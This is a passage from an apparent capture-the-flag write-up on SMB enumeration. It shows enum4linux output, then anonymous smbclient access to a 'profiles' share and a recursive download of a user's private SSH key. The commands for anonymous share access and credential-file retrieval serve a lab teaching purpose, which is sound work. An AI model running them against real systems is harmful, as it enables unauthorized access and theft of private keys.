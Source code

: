 S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)
[+] Enumerating users using SID S-1-5-21-434125608-3964652802-3194254534 and logon username '', password ''
S-1-5-21-434125608-3964652802-3194254534-501 POLOSMB\nobody (Local User)
S-1-5-21-434125608-3964652802-3194254534-513 POLOSMB\None (Domain Group)
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\cactus (Local User)

 ============================================
|    Getting printer info for <ip>    |
 ============================================
No printers returned.

enum4linux complete on Mon Mar 29 05:15:13 2021
{% endraw %}{% endcapture %} {% include code.html code=code%}

SMB port `139` is used for internal windows-windows share.
SMB port `445` is used to access SMB over internet.


### Task 4 - Exploiting SMB

### References
- [SMBclient Reference](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html){:target="_blank"}
- [SMBclient Reference](https://bigb0ss.medium.com/tip-smbclient-c5e1f40909d9){:target="_blank"}


Use `smbclient`, enumerate and get the flag.
{% capture code %}{% raw %}smbclient //<ip>/profiles -U Anonymous -p 445{% endraw %}{% endcapture %} {% include code.html code=code%}
{% capture code %}{% raw %}Enter WORKGROUP\Anonymous's password: <empty>
Try "help" to get a list of possible commands.{% endraw %}{% endcapture %} {% include code.html code=code%}

Check if there are any interesting files and download that.
{% capture code %}{% raw %}ls
get "<file>" smb_enum.txt
!cat smb_enum.txt{% endraw %}{% endcapture %} {% include code.html code=code%}

Since the user is allowed ssh to other server, check if there is any remnants of rsa/dsa keys.
{% capture code %}{% raw %}recurse ON
prompt ON
mget .ssh
  getting file \.ssh\id_rsa of size 1679 as id_rsa (2.5 KiloBytes/sec) (average 2.5 KiloBytes/sec)
  getting file \.ssh\id_rsa.pub of size 396 as id_rsa.pub (0.6 KiloBytes/sec) (average 1.5 KiloBytes/sec)
  NT_STATUS_ACCESS_DENIED opening remote file \.ssh\authorized_keys
exit{% endraw %}{% endcapture %} {% include code.html code=code%}
